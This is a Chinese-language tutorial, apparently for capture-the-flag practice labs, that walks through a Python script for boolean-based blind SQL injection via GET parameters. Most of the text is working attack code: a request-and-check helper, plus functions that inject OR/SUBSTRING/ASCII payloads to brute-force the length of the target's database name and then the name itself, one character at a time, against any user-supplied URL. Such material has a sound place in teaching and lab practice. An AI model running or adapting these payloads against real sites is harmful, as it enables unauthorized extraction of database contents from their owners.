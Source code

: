 由于sql注入点是用GET传参 通过引用requests库来对url发送重复请求 

并定义chars作为字典<font style="color:#601BDE;">（后面会用到char for chars的遍历来确定字符）</font>

再定义一个send_payload()函数作为判断条件

当页面中出现"You are in..........."<font style="color:#601BDE;">（并不唯一 根据遇到的题目变化而变化）</font>返回真 可以使字符遍历时找到正确的字符

```python
import requests

global url #定义一个全局变量url
url = input("Enter the URL: ")
global chars
chars = "abcdefghijklmnopqrstuvwxyz_#!@ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

def send_payload(payload):
    res = requests.get(url + payload)
    res.encoding = 'utf-8'
    if "You are in..........." in res.text:#这里是标志字符串，自行修改
        return True
    else:
        return False
```

以上作为布尔盲注的基本框架

下面我们只要根据框架定义想要的函数即可

例如

定义get_database_name_length()函数 利用length=length+1的自增及 send_payload()函数的判断 遍历出数据库的长度

然后再定义get_database_name(length)函数 利用<font style="color:#601BDE;">for i in range(1,length+1) </font><font style="color:#000000;">控制循环次数 并且利用上面所提到的</font><font style="color:#601BDE;">char for chars的遍历来确定字符 </font><font style="color:#000000;">最后把确定的字符拼接到一起得到数据库名字</font>

```python
def get_database_name_length():
    length = 0
    while True:
        length = length + 1
        payload = f"' OR (SELECT LENGTH(database()))={length}--+" #payload一般也根据题目改变 如绕过过滤等
        if send_payload(payload):
            print(f"Database name length: {length}")
            return length
#试出数据库名字的长度
def get_database_name(length):
    database_name = ""
    for i in range(1,length+1):
        for char in chars:
            payload = f"' OR (SELECT ASCII(SUBSTRING(database(),{i},1)))= {ord(char)}--+" #payload一般也根据题目改变 如绕过过滤等
            if send_payload(payload):
                database_name = database_name + char
                print(f"Database name: {database_name}")
                break
    print("Database name:",database_name)
    return database_name
#试出数据库的名字  
```
